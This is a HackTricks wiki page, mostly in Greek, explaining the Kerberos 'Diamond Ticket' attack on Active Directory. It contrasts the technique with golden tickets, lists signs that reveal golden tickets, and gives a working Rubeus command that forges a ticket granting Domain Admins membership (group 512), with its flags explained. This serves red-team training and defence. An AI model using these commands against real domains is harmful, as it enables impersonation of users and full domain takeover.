 # Diamond Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Diamond Ticket

**Όπως ένα χρυσό εισιτήριο**, ένα διαμαντένιο εισιτήριο είναι ένα TGT που μπορεί να χρησιμοποιηθεί για **να αποκτήσει πρόσβαση σε οποιαδήποτε υπηρεσία ως οποιοσδήποτε χρήστης**. Ένα χρυσό εισιτήριο κατασκευάζεται εντελώς εκτός σύνδεσης, κρυπτογραφημένο με το hash krbtgt αυτού του τομέα, και στη συνέχεια εισάγεται σε μια συνεδρία σύνδεσης για χρήση. Επειδή οι ελεγκτές τομέα δεν παρακολουθούν τα TGT που έχουν εκδοθεί νόμιμα, θα αποδεχτούν ευχαρίστως TGT που είναι κρυπτογραφημένα με το δικό τους hash krbtgt.

Υπάρχουν δύο κοινές τεχνικές για να ανιχνεύσετε τη χρήση χρυσών εισιτηρίων:

* Αναζητήστε TGS-REQs που δεν έχουν αντίστοιχο AS-REQ.
* Αναζητήστε TGTs που έχουν ανόητες τιμές, όπως η προεπιλεγμένη διάρκεια 10 ετών του Mimikatz.

Ένα **διαμαντένιο εισιτήριο** δημιουργείται με **την τροποποίηση των πεδίων ενός νόμιμου TGT που εκδόθηκε από έναν DC**. Αυτό επιτυγχάνεται με **την αίτηση** ενός **TGT**, **την αποκρυπτογράφηση** του με το hash krbtgt του τομέα, **την τροποποίηση** των επιθυμητών πεδίων του εισιτηρίου, και στη συνέχεια **την επανακρυπτογράφηση** του. Αυτό **ξεπερνά τις δύο προαναφερθείσες αδυναμίες** ενός χρυσού εισιτηρίου επειδή:

* Τα TGS-REQs θα έχουν ένα προηγούμενο AS-REQ.
* Το TGT εκδόθηκε από έναν DC, που σημαίνει ότι θα έχει όλες τις σωστές λεπτομέρειες από την πολιτική Kerberos του τομέα. Ακόμα και αν αυτά μπορούν να κατασκευαστούν με ακρίβεια σε ένα χρυσό εισιτήριο, είναι πιο περίπλοκο και επιρρεπές σε λάθη.
```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
